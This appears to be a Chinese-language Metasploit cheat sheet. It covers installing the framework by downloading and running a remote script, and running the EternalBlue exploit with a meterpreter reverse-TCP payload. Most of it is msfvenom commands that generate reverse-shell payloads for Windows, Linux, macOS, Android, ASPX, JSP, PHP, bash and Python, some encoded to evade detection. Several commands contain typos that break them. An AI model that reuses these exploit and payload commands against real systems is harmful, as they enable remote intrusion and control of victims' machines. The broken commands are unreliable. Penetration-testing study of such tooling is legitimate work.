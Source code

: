 - MSF的更新：`msfupdate`

## 安装
```Bash
curl https://raw.githubusercontent.com/rapid7/metasploitomnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb >msfinstall && chmod 755 msfinstall && ./msfinstall

adduser msf #添加msf用户
su msf #切换到msf用户
cd /opt/metasploit-framework/bin #切换到msf所在的目录
./msfconsole #以后启动msfconsole，都切换到msf用户下启动，这样会同步数据库。如果使用root用户启动的话，不会同步数据库

也可以将msfconsole加入到执行目录下，这样在任何目录直接msfconsole就可以了

ln -s /opt/metasploit-framework/bin/msfconsole /usr/bin/msfconsole

#备注：

#初次运行msf会创建数据库，但是msf默认使用的PostgreSQL数据库不能与root用户关联，这也这也就是需要新建用户msf来运行metasploit的原因所在。如果你一不小心手一抖，初次运行是在root用户下，请使用

msfdb reinit 命令，然后使用非root用户初始化数据库。

MSF后期的升级：apt update; apt install metasploit-framework
```

## 使用方法
- 进入框架：`msfconsole`
- 使用search命令查找相关漏洞：`search ms17-010`
- 使用use进入模块: `use exploit/windows/smb/ms17_010_eternalblue`
- 使用info查看模块信息：`info`
- 设置攻击载荷：`set payload windows/x64/meterpreter/reverse_tcp`
- 查看模块需要配置的参数：`show options`
- 设置参数：set `RHOST 192.168.1.1`
- 攻击：`exploit / run`
- 后渗透阶段

我们也可以将攻击代码写入 `configure.rc`（只要是以 .rc 结尾的文件）配置文件中，然后使用命令`msfconsole -r configure.rc` 进行自动攻击！

## msfvenom生成shellcode

### 普通生成
```bash
msfvenom -p 有效载荷 -f 输出格式 -o 输出文件
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o payload.exe
```

### 编码生成
```bash
msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式 -i编码次数 -f 输出格式 -o 输出文件
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=192.168.1.1 lport=8888 -i 3-e x86/shikata_ga_nai -f exe -o payload.exe
```

### Info
- 查看支持的系统架构 ：`msfvenom —list archs`
```bash
aarch64, armbe, armle, cbea, cbea64, cmd, dalvik, firefox, java, mips, mips64,
mips64le, mipsbe, mipsle, nodejs, php, ppc, ppc64, ppc64le, ppce500v2, python, r,
ruby, sparc, sparc64, tty, x64, x86, x86_64, zarch
```

- 查看支持系统平台：`msfvenom —list platforms`
- 列出所有可用的payload：`msfvenom -l payload`
- 列出所有的输出格式：`msfvenom -l formats`
- 列出所有的加密方式：`msfvenom -l encrypt` 
- 列出所有的编码器：`msfvenom -l encoders`


## 常见生成格式

### Windows

```bash
msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp -f exe -o payload.exe
msfvenom --platform windows -a x64 -p windows/meterpreter/reverse_tcp -f exe -o payload.exe
msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp lhost=192.168.0.108 lport=4445 -f exe -o payload.exe
```

### Linux
```bash
msfvenom --platform linux -a x86 -p linux/x86/meterpreter/reverse_tcp -f elf -o payload.elf
```

### Mac
```bash
msfvenom --platform osx -a x86 -p osx/x86/shell_reverse_tcp -f macho -o payload.macho
```

### Android
```bash
msfvenom --p android/meterperter/reverse_tcp -o payload.apk
```

### Aspx
```bash
msfvenom --platform windows-p windows/meterpreter/reverse_tcp -f aspx -o payload.aspx
```

### JSP
```bash
msfvenom --platform java -p java/jsp_shell_reverse_tcp -f raw -o payload.jsp
```


### PHP
```bash
msfvenom -p php/meterpreter_reverse_tvp -f raw -o payload.php
```

### BASH
```bash
msfvenom -p cmd/unix/reverse_bash -f raw -o shell.sh
```

### Python
```bash
msfvenom -p python/meterpreter/reverse_tcp -f raw -o shell.py
```